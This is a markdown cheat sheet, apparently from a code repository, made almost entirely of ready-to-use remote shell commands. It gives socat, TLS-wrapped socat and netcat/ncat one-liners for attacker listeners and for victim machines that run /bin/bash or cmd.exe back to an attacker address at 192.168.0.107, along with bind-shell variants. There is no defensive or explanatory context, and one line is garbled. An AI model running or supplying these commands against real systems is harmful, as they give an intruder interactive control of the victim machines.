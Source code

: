 # Reverse shell
## Socat<br>
**Attacker:** `socat -d -d TCP4-LISTEN:4443 STDOUT`<br>
**Victim:** `socat TCP4:192.168.0.107:4443 EXEC:/bin/bash`<br>
**Victim windows:** `socat TCP4:192.168.0.107:4443 EXEC:'cmd.exe',pipes`<br>

## Encrypted reverse shell
Create certificate: 
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```
**Attacker:** `socat -d -d OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork STDOUT`<br>
**Victim:** `socat OPENSSL:192.168.0.107:4443,verify=0 EXEC:/bin/bash`<br>
**Victim Windows:** `socat OPENSSL:192.168.0.107:4443,verify=0 EXEC:'cmd.exe',pipes`<br>

# Bind shell
## Socat
**Victim:** `socat -d -d TCP4-LISTEN:4443 EXEC:/bin/bash`<br>
**Victim Windows:**  `socat -d -d TCP4-LISTEN:4443 EXEC:'cmd.exe',pipes`<br>
**Attacker:** `socat - TCP4:VICTIMIP:4443`

## Encrypted reverse shell
From victim machine we have to cert .pem file we can generate certificate and transfer to victim.<br>
**Victim:** `socat OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork EXEC:/bin/bash`<br>
**Victim Windows:** `socat OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork EXEC:'cmd.exe',pipes`<br>
**Attacker:**  `socat - OPENSSL:VICTIMIP:4443,verify=0`<br>


# Netcat
## Reverse shell<br>
**Attacker:** `nc -lvnp 4444` **Encrypted:** `ncat -l 8080 --ssl -v`<br>
**Victim:** `nc 192.168.0.107 4444 -e /bin/bash` **Encrypted:** `ncat 192.168.0.110 8080 --ssl -e /bin/bash -v`

## Bind shell
**Victim:** `nc -lvp 4444 -e /bin/bash`<br>
**Attacker:** `nc 192.168.0.106 4444`<br>

